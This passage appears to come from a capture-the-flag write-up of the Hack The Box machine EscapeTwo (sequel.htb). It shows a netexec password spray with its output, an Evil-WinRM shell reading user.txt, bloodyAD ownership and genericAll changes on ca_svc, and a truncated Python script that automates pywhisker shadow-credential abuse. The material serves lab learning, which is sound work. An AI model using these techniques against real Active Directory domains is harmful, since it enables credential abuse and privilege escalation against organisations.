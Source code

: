 Time to spray again. Password works for both ryan and sql_svc. Ryan has winrm access.
```bash
» netexec ldap $(cat ip.txt) -u users.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3
----------------------------------------------------------------------------------------------------------------
```

```bash
*Evil-WinRM* PS C:\Users\ryan\Documents> type ..\Desktop\user.txt
b81cd***************************
```

Ryan also has WriteOwner on `CA_SVC`. So we can probably use the vulnerable templates now, since `CA_SVC` is part of `CERT_PUBLISHERS`
![escapetwo2](/assets/img/escapetwo2.png)

We make ryan have genericAll then use `add_key_credential_link`
```bash
bloodyAD -u ryan -p 'WqSZAF6CysDQbGb3' --host dc01.sequel.htb set owner ca_svc ryan
bloodyAD -u ryan -p 'WqSZAF6CysDQbGb3' --host dc01.sequel.htb add genericAll ca_svc ryan
```
```python
#!/usr/bin/env python -W
import subprocess

domain = "sequel.htb"
user = "ryan"
target = "ca_svc"
pw = "WqSZAF6CysDQbGb3"

out = subprocess.run(
    f'pywhisker -d "{domain}" -u "{user}" -p "{pw}" --target "{target}" --action "add"',
    shell=True,
    capture_output=True,
)

pfx_path = out.stdout.decode(errors="ignore").split("at path: ")[1].split("\n")[0]
pfx_password = (
    out.stdout.decode(errors="ignore").split("with password: ")[1].split("\n")[0]
)

subprocess.run(
```